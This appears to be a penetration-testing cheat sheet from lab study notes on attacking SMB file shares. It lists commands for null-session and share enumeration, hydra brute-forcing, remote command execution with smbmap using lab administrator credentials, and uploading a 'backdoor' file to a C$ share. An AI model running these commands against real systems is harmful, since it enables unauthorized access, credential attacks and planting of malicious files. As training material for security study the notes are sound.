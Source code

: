 Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
```

## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L \\\\192.126.66.3\\ -N =Nullsession, list shares

smbclient -L \\\\[10.10.125.84](notion://10.10.125.84/)\\=list shares

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\ADMIN$ = connect to the share with annon

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\IPC$ = connect to IPC

smbclient [//192.208.227.3/public](notion://192.208.227.3/public) -N => connected

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient -L 192.212.251.3 -U jane ⇒ List Shares, better give passsword

smbclient [//192.212.251.3/jane](notion://192.212.251.3/jane) -U jane ⇒ Access jane share using username jane.

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
mget = command to download file
GET and PUT command will work for downloading and uploading files.

# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)
